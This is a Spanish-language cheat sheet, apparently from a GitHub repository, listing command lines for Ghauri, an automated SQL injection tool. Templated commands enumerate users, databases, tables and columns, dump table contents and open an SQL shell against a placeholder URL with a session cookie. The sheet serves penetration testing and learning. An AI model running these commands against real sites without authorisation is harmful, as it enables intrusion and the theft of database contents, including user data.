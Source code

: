 # Ghauri Cheat Sheet

#### Uso simple
```
ghauri -u "<URL>"
```

#### Conocer el usuario actual
```
ghauri -u "<URL>" --cookie="<Cookie-Value>" --current-user
```

#### Conocer la Base de Datos actual
```
ghauri -u "<URL>" --cookie="<Cookie-Value>" --current-db
```

#### Especificar el Sistema Gestor de Base de Datos
```
ghauri -u "<URL>" --dbms=<Name-DBMS>
```

#### Listar los usuarios de la BD del sitio
```
ghauri -u "<URL>" --cookie="<Cookie-Value>" --users
```

#### Listar las Bases de Datos del sitio
```
ghauri -u "<URL>" --cookie="<Cookie-Value>" --dbs
```

#### Listar las tablas de una Base de Datos
```
ghauri -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> --tables
```

#### Listar las columnas de una Tabla
```
ghauri -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --columns
```

#### Ver contenido de ciertas Columnas de una Tabla
```
ghauri -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> -C <Column1,Column2> --dump
```

#### Ver todo el contenido de una Tabla de una Base de Datos
```
ghauri -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --dump
```

#### Obtener un Shell de OS interactivo
```
ghauri -u "<URL>" --cookie="<Cookie-Value>" --sql-shell
```

#### Listar BD, usando un parámetro de 'User-Agent' con el método GET
```
ghauri -u '<URL>' -p User-Agent --method=GET --user-agent=NONE --threads=10 --level=3 --dbs
```

#### Enviar las peticiones a nuestro propio proxy
```
ghauri -u "<URL>" -p <PARAMETER> --threads=2 --level=3 --user-agent=NONE --proxy=http://localhost:8080 --dbs
```

#### Testear a traves de un request guardado en un archivo
```
ghauri -r "<PATH_FILE>" --data='user=a&pass=a' -p user --user-agent=NONE --threads=2 --level=3 --proxy=http://localhost:8080 --dbs
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
